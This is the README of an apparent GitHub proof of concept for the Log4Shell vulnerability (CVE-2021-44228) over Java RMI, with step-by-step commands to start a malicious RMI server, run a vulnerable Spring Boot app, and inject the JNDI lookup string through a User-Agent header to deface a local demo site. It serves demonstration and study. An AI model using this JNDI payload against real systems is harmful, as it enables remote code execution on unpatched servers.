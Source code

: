 # Demonstration of the Log4jShell Exploit

This code may contain malware and is known to contain vulnerabilities. 

Use at your own risk - if you use it, be advised to do that in a VM  - discard the VM after use.

# log4shell-rmi-poc

A Proof of Concept of the Log4j vulnerability (CVE-2021-44228) over Java-RMI
It uses Log4j 2.5.7 from spring-boot-starter-log4j2

## Requirements:

Tested with Java 8 (JDK 1.8.0_25), Java 11 (JDK 11.0.1) and Java 19 (openjdk 19.0.2)

## How to run the POC

### 1. Clone the repo:

```bash
git clone https://github.com/Labout/log4shell-rmi-poc.git
```

### 2. Start the attacker RMI Server

```bash
cd log4jshell-rmi-server
./startRmiServer.sh 
```

You should get something like this:

```
a target/classes/static
a target/classes/static/index.html
a target/classes/static/img
a target/classes/static/img/wc.png
Starting malicious RMI Server
Creating evil RMI registry on port 1099
Bind remote exploit to 'WannaCry'
```

### 3. Start the vulnerable Log4j application (a simple spring boot application)

In a new Terminal 

```bash
cd vulnerable-log4j-app
./startVulnerableService.sh
```

### 4. Show the original site (a dummy web-site)

```bash
open http://localhost:8080
```

The original website is opened in your browser.


### 5. Inject a vulnerable JNDI over the "User-Agent" header 

```bash
curl http://localhost:8080 --header 'User-Agent: ${jndi:rmi://127.0.0.1:1099/WannaCry}'
```

The website gets updated with the data provided from malicious RMI server that has been started in the first step.

> [!NOTE]
> To protect against real exploitation, this must be done from a client located at 127.0.0.1.

### 6. Show the now hacked site

```bash
open http://localhost:8080
```

(or just reload the previous page in your browser). The hacked website is returned.

## References 

* https://www.cisecurity.org/log4j-zero-day-vulnerability-response/
* https://www.lunasec.io/docs/blog/log4j-zero-day/
